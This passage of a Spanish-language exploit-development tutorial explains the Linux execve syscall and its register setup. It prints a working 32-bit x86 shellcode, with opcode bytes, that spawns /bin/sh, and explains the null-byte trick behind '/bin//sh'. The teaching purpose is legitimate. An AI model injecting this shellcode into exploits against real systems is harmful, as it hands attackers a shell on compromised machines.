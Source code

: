 ### Syscall execve: <a id="syscall-execve"></a>

**Para ejecutar un programa se usa el syscall execve**, que corresponde al syscall 11.

```bash
 $ man 2 execve

 EXECVE(2)
 SYNOPSIS
     #include 
     int execve(const char *filename, char *const argv[], char *const envp[]);
```

Para ejecutar `execve` los registros deben estar seteados de la siguiente manera:

```c
eax => nro 11 syscall execve
ebx => 1er argumento: filename, un puntero al nombre del binario a ejecutar. 
ecx => 2do argumento: argv[], un puntero a un array de argumentos (comenzando por el nombre del binario y finalizando con un caracter nulo).
edx => 3er argumento: envp[], un puntero a un array de variables de entorno, que también finaliza en un caracter nulo.  
```

Para simplificar el código en assembler, buscamos ejecutar `execve("/bin/sh", NULL, NULL)` \(con `argv[]` y `envp[]` en `NULL`\). Para ello los registros deben estar seteados de la siguiente manera:

```c
eax => nro 11 syscall execve
ebx => 1er argumento: puntero al string /bin/sh.
ecx => 2do argumento: NULL
edx => 3er argumento: NULL
```

Y el código en assembler sería:

```c
 31 c0            xor    eax,eax
 50               push   eax           ; \0
 68 2f 2f 73 68   push   0x68732f2f    ; hs// en ASCII (little endian de //sh)
 68 2f 62 69 6e   push   0x6e69622f    ; nib/ en ASCII (little endian de /bin)
 89 e3            mov    ebx, esp      ; ebx => /bin//sh\0
 89 c1            mov    ecx, eax      ; ecx = 0x0
 89 c2            mov    edx, eax      ; edx = 0x0
 b0 0b            mov    al, 0x0b      ; 11 = execve, nro syscall
 cd 80            int    0x80
```

Ejemplo tomado de [Shell storm](http://shell-storm.org/shellcode/files/shellcode-811.php).

{% hint style="success" %}
**Consideraciones**: el uso de una doble barra de `/bin//sh` es por el problema de la escritura de caracteres nulos en el shellcode. La barra extra permite alinear el string `/bin//sh` en dos double-words \(de 4 bytes cada una\), quedando el `\0` final en la siguiente word o _palabra_. Este alineamiento permite generar ese `\0` final con un `xor`, sin tener el problema de la escritura de caracteres nulos. Si en cambio se elimina la doble barra, el `\0` formaría parte de la segunda double-word y con un `xor` no lograríamos incluirlo en el string y un mecanismo más complejo sería necesario. La cuestión de los caracteres especiales en el shellcode se desarrolla más adelante.
{% endhint %}
